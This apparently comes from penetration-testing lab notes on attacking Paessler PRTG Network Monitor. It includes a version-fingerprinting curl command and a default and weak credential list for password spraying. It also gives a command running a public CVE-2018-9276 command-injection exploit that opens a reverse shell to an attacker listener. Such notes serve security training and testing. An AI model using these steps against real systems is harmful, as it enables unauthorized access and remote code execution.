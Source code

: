 ### Footprinting + Enumeration
nmap output
```bash
8080/tcp  open  http          Indy httpd 17.3.33.2830 (Paessler PRTG bandwidth monitor)
```

```shell
curl -s http://10.129.201.50:8080/index.htm -A "Mozilla/5.0 (compatible;  MSIE 7.01; Windows NT 5.0)" | grep version
```
### Exploitation
#### Password Spraying
`prtgadmin:prtgadmin` is often left unchanged
```bash
prtgadmin
Password123
admin
root
prtgadmin!
```

#### RCE via
This excellent [blog post](https://www.codewatch.org/blog/?p=453) by the individual who discovered this flaw does a great job of walking through the initial discovery process and how they discovered it

`Setup` -> `Account Settings` -> `Notifications` -> `Add new notification`
#### Known Vulnerabilities
##### [CVE-2018-9276](https://github.com/wildkindcc/CVE-2018-9276)
PRTG version `17.3.33.2830` is likely vulnerable to [CVE-2018-9276](https://github.com/wildkindcc/CVE-2018-9276) which is an authenticated command injection in the PRTG System Administrator web console

```bash
python3 CVE-2018-9276.py -i 172.16.1.15 -p 8080 --lhost 172.16.1.45 --lport 4443 --user prtgadmin --password prtgadmin 
```
